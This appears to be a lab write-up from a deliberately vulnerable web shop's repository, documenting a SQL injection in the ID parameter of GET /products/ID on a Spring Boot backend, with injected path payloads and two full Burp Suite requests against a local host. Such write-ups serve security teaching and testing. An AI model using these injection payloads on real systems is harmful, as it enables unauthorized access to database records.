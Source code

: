 # SQL Injection
SQL injection is a database query manipulation attack against structured query language (SQL) that allows attackers to escape the intended query to perform unintended/malicious actions.

## Exploitation
**Prerequisites:** _None_

**Location:** _GET /products/ID_

The ID parameter of GET /products/ID can be escaped since SpringBoot on this endpoint does not implement any protects filtering or isolating for clause fields.  Below is an exploitation example:

    # Receives Product ID 1 information
    GET /products/1 or p.id=2  order by 13

    # Receives Product ID 2 information when it should be Product ID 1
    GET /products/1 or p.id=2  order by 16

You'l see that adding _or p.id=2 order by 16_ changed the product output showing effectively that SQL was escaped

Successful exploitation looks like:

    {
    "id": ...,
    "name": ...,
    "brand": ...,
    "description": ...,
    "price": ...,
    "stock": ...,
    "productReviews": [{...}, {...}, ...],
    "averageReviewGrade": ...,
    "tagNames": [...],
    "image": ...
    }

## Burp Suite Example Exploitation

    # First Request
    GET /products/1 or p.id=2  order by 13 HTTP/1.1
    Host: 127.0.0.1:8081
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    X-XSRF-TOKEN: 877dd681-4a9f-41f0-ae74-d1ada25aab32
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=877dd681-4a9f-41f0-ae74-d1ada25aab32; JSESSIONID=1C77B365979B077008298700287FA604
    Connection: close

    # Second Request
    GET /products/1 or p.id=2  order by 16 HTTP/1.1
    Host: 127.0.0.1:8081
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    X-XSRF-TOKEN: 877dd681-4a9f-41f0-ae74-d1ada25aab32
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=877dd681-4a9f-41f0-ae74-d1ada25aab32; JSESSIONID=1C77B365979B077008298700287FA604
    Connection: close


